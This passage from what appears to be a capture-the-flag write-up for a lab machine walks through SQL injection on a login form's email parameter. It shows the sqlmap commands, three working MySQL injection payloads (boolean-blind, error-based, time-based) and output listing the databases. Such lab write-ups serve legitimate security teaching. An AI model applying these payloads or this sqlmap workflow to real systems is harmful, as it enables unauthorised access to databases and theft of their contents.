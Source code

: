 

#### Via SQL Data Dump / Crack

Without logging in, I can exploit this injection to dump data from the
database. Because nothing I submit is displayed back to me, I'll have to
use either blind or potentially error-based SQLi. Rather than go deep
into that here, I'll let `sqlmap` have a go at it. I'll save one of the
login requests from Burp by right clicking and selecting Copy to file,
and then pass it to `sqlmap`. I'll need to use `--force-ssl` as the HTTP
site isn't there, and `--batch` will accept the default answers to all
the prompts that pop up:



    root@kali# sqlmap -r login.request --force-ssl --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 348 HTTP(s) requests:
    ---
    Parameter: email (POST)
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: email=admin@europacorp.htb' RLIKE (SELECT (CASE WHEN (3528=3528) THEN 0x61646d696e406575726f7061636f72702e687462 ELSE 0x28 END))-- ikPY&password=a

        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: email=admin@europacorp.htb' AND GTID_SUBSET(CONCAT(0x7178787a71,(SELECT (ELT(2615=2615,1))),0x716a787071),2615)-- LvpT&password=a

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: email=admin@europacorp.htb' AND (SELECT 6362 FROM (SELECT(SLEEP(5)))fgAB)-- fZwX&password=a
    ---
    [06:50:20] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [06:50:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'



`sqlmap` found three ways to exploit this, two blind and one
error-based. `sqlmap` is smart enough to keep this and apply it to
future queries at the same page. I'll start by listing the DBs:



    root@kali# sqlmap -r login.request --force-ssl --batch --dbs 
    ...[snip]...
    [06:57:26] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [06:57:26] [INFO] fetching database names
    [06:57:27] [INFO] retrieved: 'information_schema'
    [06:57:27] [INFO] retrieved: 'admin'
    available databases [2]:
    [*] admin
    [*] information_schema
